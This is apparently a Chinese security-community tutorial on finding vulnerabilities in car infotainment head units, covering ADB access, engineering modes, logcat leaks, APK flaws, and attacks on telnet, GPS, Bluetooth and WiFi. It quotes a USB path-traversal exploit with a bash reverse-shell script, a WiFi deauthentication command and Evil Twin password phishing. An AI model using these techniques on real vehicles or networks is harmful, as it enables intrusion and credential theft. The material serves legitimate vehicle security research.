# 浅谈车机IVI漏洞挖掘 - 先知社区

浅谈车机IVI漏洞挖掘

- - -

## 简介

IVI（In-Vehicle Infotainment）是指安装在汽车中的信息娱乐系统。它是集成了多种功能和服务的电子设备，旨在提供丰富的娱乐、信息和通信体验。  
其实对于这个除了IVI之外还有很多名字，比如

-   Head Unit (HU): Head Unit是指车辆中心控制单元，它是车机系统的主要组成部分。Head Unit通常位于车辆的仪表板上，集成了多媒体功能、导航系统和控制界面。
-   Infotainment System: Infotainment系统是指整合了信息和娱乐功能的车载系统。它提供了音频、视频、导航、通信等功能，旨在为驾驶员和乘客提供全面的娱乐和信息体验。
-   中控屏
-   ....

根据车厂的不同可能叫法也不太一样，大家知道说的是这个东西就OK

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195315-11d545ee-7c9b-1.png)

IVI系统一般是车厂根据Android系统进行裁剪修改之后定制化生成的  
因为车联网安全里面的每个部分其实单拎出来都可以写很多，同时因为车联网安全的特殊性（主机和设备难得），所以本文有部分内容我就直接丢上前人的链接简单介绍一下了（吐舌  
本篇文章讨论在获取到 IVI shell 或者通过adb链接到IVI的基础上，如何进行漏洞挖掘，如有不足欢迎指正

## 前置知识

在开始之前我们需要先了解一些前置知识

### ADB

关于adb可以参考官方文档 - [https://developer.android.com/studio/command-line/adb?hl=zh-cn](https://developer.android.com/studio/command-line/adb?hl=zh-cn)  
Android 调试桥 (adb) 是一种功能多样的命令行工具，可让您与设备进行通信。adb 命令可用于执行各种设备操作，例如安装和调试应用。adb 提供对 Unix shell（可用来在设备上运行各种命令）的访问权限  
我们可以通过adb调试桥来管理Android设备，例如我这里链接到android手机

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195327-18b989c4-7c9b-1.png)

#### 线束adb链接

前面提到车机也是android系统魔改的来的，当然也可以通过adb链接车机，车机的adb口  
每家车厂不太一样，有比较通用的比如这里的micro usb口

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195909-e490cb2a-7c9b-1.png)

也有车厂定制的adb口，这种的话接车机的那个口就会比较特殊（也就是不太好找到这样的线）  
比如下面这个车机，一眼看过去好像没有哪个口是能够连到电脑上的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195341-214f6612-7c9b-1.png)

#### 无线adb链接

如果没有adb线束，还有其他的办法链接车机adb吗？  
如果IVI有WIFI的话，可以通过无线adb的方式

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195349-25e64790-7c9b-1.png)

简单来说就是电脑和车机在同一个WIFI下，通过adb connect去链接

```plain
adb connect device_ip_address:5555
```

如果adb devices里面有设备就代表链接成功了

### scrcpy

IVI有很多接口和线束，其中一个线束就是去外接显示器的，但是实际中我们可能只有一个车机IVI，那怎么看屏幕呢  
在链接车机adb的情况下，可以使用scrcpy通过adb通道进行车机屏幕显示  
项目地址 [https://github.com/Genymobile/scrcpy](https://github.com/Genymobile/scrcpy)  
下面就是通过scrcpy来进行AOSP手机的投屏，车机也是同理

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195358-2b20a05c-7c9b-1.png)

### 工程模式简介

车机因为功能众多，所以一般会内置工程模式，工程模式里面能开启车机的很多隐藏功能，比如开启adb调试，查看logcat日志等操作  
很多时候车主社区里面反而能够出现不少无意间找到打开工程模式的车主~

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195407-309bce76-7c9b-1.png)

打开工程模式的方式每家车厂都不太一样，有的是多次点击车机某个特殊位置，有的是在  
拨号按键输入特定码，比如某车友会中给出的方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195414-34ecaed2-7c9b-1.png)

就可以打开工程模式了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195421-38f42b2c-7c9b-1.png)

## 漏洞挖掘

漏洞挖掘之前先明确自己的目标是什么  
如果你是车辆安全研究人员，需要找到一条从完整控制整车的链路，在已有IVI shell的情况下，目标应该放在权限提升和攻陷其他汽车零部件，比如控制TBOX  
如果你是车辆漏洞挖掘人员，或者是对IVI进行渗透测试，可以发挥的空间太多了~

### 寻找工程模式

在没有shell的情况下，找到工程模式能够让我们打开adb shell  
在存在shell的情况下，找到工程模式能够让我们看到更多的车机信息，比如车辆的VIN PDSN等数据，更多的测试接口  
PS：关于VIN和SN

> VIN是用于唯一识别车辆的标识号码，提供了有关车辆制造和规格的信息。  
> SN是产品的序列号，用于区分同一类型产品中不同的实例，并提供产品的制造和销售信息。

总之，找到车机工程模式不会亏  
一般来说找工程模式的方法为：

-   电话拨号 前置知识的工程模式已经提到
-   连续点击 比如连续点击屏幕某个角落
-   查资料 车友会或者问客服  
    \### 日志收集  
    车机内部有很多日志信息，以最常用的logcat日志为例
    
    > logcat日志是Android操作系统中的一种日志记录工具，用于捕获和显示设备上正在运行的应用程序和系统的日志消息。它可以帮助开发人员进行应用程序调试、故障排除和性能分析
    

通过观察logcat日志，里面可能会包含车机的敏感数据，例如链接到IVI上面的TBOX服务的调试信息，车机本身的VIN、SN码，车机内其他应用的远程数据API接口  
查找logcat中的网址

> logcat | grep http

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195437-426d27a8-7c9b-1.png)

### APK安全

由于车机是Android系统，所以Android系统上存在的APK问题在车机上都会存在  
包括但不限于以下（其实还有很多，一些隐蔽的攻击链路也可以在这一步实现）  
将车机内部的apk拖到本地进行进一步逆向分析

#### 接口泄露

接口泄露很寻常，从接口泄露中有机会攻击云端TSP平台，如果TSP平台恰好有远程获取车辆信息，或者远程控制车辆的功能....如图所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195445-47ade2c0-7c9b-1.png)

#### 硬编码

开发者将密码直接硬编码到APK里面，在车机系统百花齐放的现在出现问题的可能性更大了  
之前的一个案例是系统供应商将ROOT密码存放在了一个系统应用里面，如果攻击者找到并逆向了该apk，就可以轻松提权到ROOT

#### APK漏洞

APK安全有很多，比如这篇文章里面的逆向某车载音乐APP - [https://xz.aliyun.com/t/12972](https://xz.aliyun.com/t/12972)  
逆向之后可以直接以VIP身份听音乐

### 系统文件

包含但不限于以下

#### adb验证程序

车机system目录下会存在一些系统文件，如果发现车机出现一些奇奇怪怪的问题，可以检查一下该目录下的文件  
例如在绿盟技术博客 - [https://blog.nsfocus.net/tbox/](https://blog.nsfocus.net/tbox/) 中提到的，adb devices，adb pull不受影响，但是adb shell需要密码认证，将system目录下的verify\_sh程序导出逆向，其中存在密码认证

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195500-507dd6da-7c9b-1.png)

#### U盘挂载文件

github上有一篇破解日系车机的文章 - [https://github.com/ea/bosch\_headunit\_root](https://github.com/ea/bosch_headunit_root)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195507-54bc1db0-7c9b-1.png)

日产的bosch车机挂载恶意U盘的情况下，可以反弹shell到攻击者的服务器，存在问题的文件即 /etc/udev/scripts/mount.sh  
其中的挂载操作

```plain
result=$($MOUNT -t ${ID_FS_TYPE} -o sync,ro$IOCHARSET $DEVNAME "$MOUNTPT/$mountdir" 2>&1)
```

$mountdir 我们能够控制并且没有什么过滤操作，存在目录穿越漏洞  
所以构造的恶意U盘信息为

```plain
/etc# blkid /dev/sdb1
/dev/sdb1: LABEL="../../usr/bin" UUID="7cc162e8-93d7-1f44-bbd6-0d308f113468" TYPE="ext4"
```

在U盘目录下编写logger脚本来进行反弹shell

```plain
root@kali:~/automotive# mount /dev/sdb1 /media/root/
root@kali:~/automotive# cd /media/root
root@kali:/media/root# cat logger
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.159.128/4444 0>&1
root@kali:/media/root# chmod +x logger
root@kali:/media/root# cd -
root@kali:~/automotive# umount /dev/sdb1
```

### 服务安全

针对车机内部的一些服务的扫描，包含但不限于以下

#### telnet

2016年腾讯的科恩实验室在blackhat上针对特斯拉Model S进行攻击的时候，从车机CID打出去也用到了Telnet攻击，而我们仅仅需要用到nmap扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106200018-0db680c6-7c9c-1.png)

当扫到23端口的时候就会知道又出洞了  
使用以下命令进行链接

> nc parrot 23

#### GPS服务

GPS的欺骗就需要一些无线设备来辅助我们的操作了，比如HackRF、BladeRF.....

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195553-702d36ba-7c9b-1.png)

生成静态GPS数据开源项目为 [https://github.com/osqzss/gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)  
具体的操作可以看kxliping师傅看雪上的这篇文章 [https://bbs.kanxue.com/thread-271306.htm](https://bbs.kanxue.com/thread-271306.htm)  
最后实现的效果当然就是车辆导航GPS信号被干扰，能够让车主误判位置信息，但是实际场景下，可能车辆并不仅仅使用GPS进行定位，还有可能会配合基站和其他定位系统，这样的话仅仅欺骗GPS不会造成定位的偏移（鸡蛋不要放在一个篮子里）

#### 蓝牙

蓝牙分为了经典蓝牙和低功耗蓝牙，蓝牙可以作为外部进入车机的口子，是攻击者最喜欢的途径之一  
除了打开蓝牙 扫扫蓝牙的历史漏洞，比如 Braktooth 拒绝服务攻击  
参考星舆实验室针对特斯拉model3的测试 [https://www.youtube.com/watch?v=8lHmj6K55aw](https://www.youtube.com/watch?v=8lHmj6K55aw)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195603-75bea55a-7c9b-1.png)

也可以针对功能性进行测试，例如存在蓝牙未授权漏洞，只要车机开启蓝牙后，攻击者可以无感链接到车机蓝牙上

#### WIFI

拥有WIFI 0day的情况不在我们的讨论范围内~

##### 钓鱼攻击

> 掏出Fluxion来进行钓鱼

特点在于诱骗用户自己输入并移交WIFI密码  
Fluxion是通过使用WPA握手功能来控制登录页面的行为和控制整个脚本的行为的工具。它会阻塞原始网络并创建一个具有相同名称的克隆网络，引起断开连接后的用户加入。 并且提供了一个虚假的路由器重新启动或加载固件，并请求网络密码继续登录的页面。

该工具通过捕获握手包来获得输入的密码，使用Aircrack-ng来验证密码的准确性，期间一直卡住目标AP，直到输入正确密码。

##### 暴力破解

用aireplay-ng获取WIFI的握手包，然后对于获得的握手包进行暴力破解，比较简单就不展开说明了

##### 热点拒绝服务

如果去复现了WIFI暴力破解这个过程，如果用户一直没有连接WIFI，我们就无法获得握手包了，解决办法就是如果用户处于WIFI在线状态，我们就对目标设备进行攻击，使其掉线重新链接，以此来获得握手包

> mdk4 wlan0mon d -B MAC地址 -c 6

### 提权

> 喜闻乐见的提权环节

#### 信息收集提权

前面提到有的车机会把ROOT密码硬编码到系统APK里面，如果能够找到，就能够实现普通shell提权

#### SU提权

su提权，感觉也比较少见了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195616-7dc5d8a4-7c9b-1.png)

#### adb提权

在外部使用adb root进行提权，请求adb守护程序以root权限运行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106195622-8151a854-7c9b-1.png)

#### 漏洞提权

使用漏洞提权才是正道，前面几种方式很容易就被车厂给封死了，漏洞提权也是八仙过海

##### CVE-2013-6282

还是以2016年腾讯的科恩实验室在blackhat上针对特斯拉Model S的破解为例  
CID的内核版本为2.6.36，在这个上面存在 CVE-2013-6282本地提权漏洞

